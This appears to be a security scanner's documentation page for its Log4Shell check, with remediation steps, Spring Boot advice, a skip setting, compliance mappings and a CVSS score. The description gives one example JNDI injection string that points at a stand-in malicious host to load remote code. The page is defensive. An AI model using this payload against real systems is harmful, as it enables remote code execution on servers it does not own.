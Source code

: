 ```yaml
---
title: Log4Shell
---
```


# Log4Shell

## Description

Log4Shell is a vulnerability that allows attackers to execute arbitrary code by injecting untrusted data into log messages processed by the Log4j library.
Example: `logger.error('${jndi:ldap://malicious.com/a}'')` could trigger the execution of code from a remote server.


## Remediation

To prevent Log4Shell vulnerabilities, take the following actions:
- Update Log4j to the latest version, where this vulnerability is patched.
- Use input validation and sanitization to ensure that user inputs are not directly used in log messages.
- Disable the `jndi` lookups in Log4j by setting the system property `log4j2.formatMsgNoLookups` to `true`.
- Restrict outbound network access from the servers running your applications to prevent JNDI lookups from reaching untrusted servers.
- Implement application-level security controls and monitor for unusual log patterns that may indicate attempted exploits.



### REST Specific

<details>
    <summary>Spring_boot</summary>

Update Log4j to version 2.15.0 or later to mitigate the Log4Shell vulnerability. Ensure that log messages do not include untrusted data without proper validation and sanitization. Disable `jndi` lookups by setting the `log4j2.formatMsgNoLookups` system property to `true`. Regularly review and monitor logs for suspicious activities.

</details>

## Configuration

> Identifier: `injection/log4shel`



### Examples



#### Ignore this check

```yaml
checks:
  injection/log4shel:
    skip: true
```




## Score

- Escape Severity: **<span className="high-severity">HIGH</span>**

### Compliance

- OWASP: **[API8:2023](https://github.com/OWASP/API-Security/blob/master/editions/2023/en/0xa8-security-misconfiguration.md)**

- pci: **6.5.10**
- gdpr: **Article-32**
- soc2: **CC6**
- psd2: **Article-97**
- iso27001: **A.14.2**
- nist: **SP800-53**
- fedramp: **SI-10**

### Classification

- CWE: **829**




### Score

- CVSS_VECTOR: **CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:H/RL:O/RC:C**
- CVSS_SCORE: **9.8**

## References

- [https://cwe.mitre.org/data/definitions/829.html](https://cwe.mitre.org/data/definitions/829.html)
  - [https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)
  